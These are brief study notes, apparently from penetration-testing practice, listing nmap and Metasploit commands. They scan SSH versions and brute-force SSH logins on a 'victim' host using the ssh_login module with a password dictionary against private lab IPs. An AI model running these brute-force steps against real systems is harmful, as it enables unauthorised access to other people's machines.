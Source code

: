 #Metasploit-ssh

---


msfconsole

nmap -p 22  192.168.42.43

search sshversion

use auxiliary/scanner/ssh/sshversion

show options

set rhosts 192.168.42.43

run
---
# 暴力破解

nmap -p 22 -sV 192.168.78.162

nmap进行批量扫描

msfconsole

search ssh_login，搜索对应模块。

use auxiliary/scanner/ssh/ssh_login。

show options

set rhosts 受害者Ip号

set username 受害者主机用户名

set pass_file 密码字典文件路径

set thread 线程数，用于进行破解密码的线程个数

show options，再次查看设置的信息是否完全

run
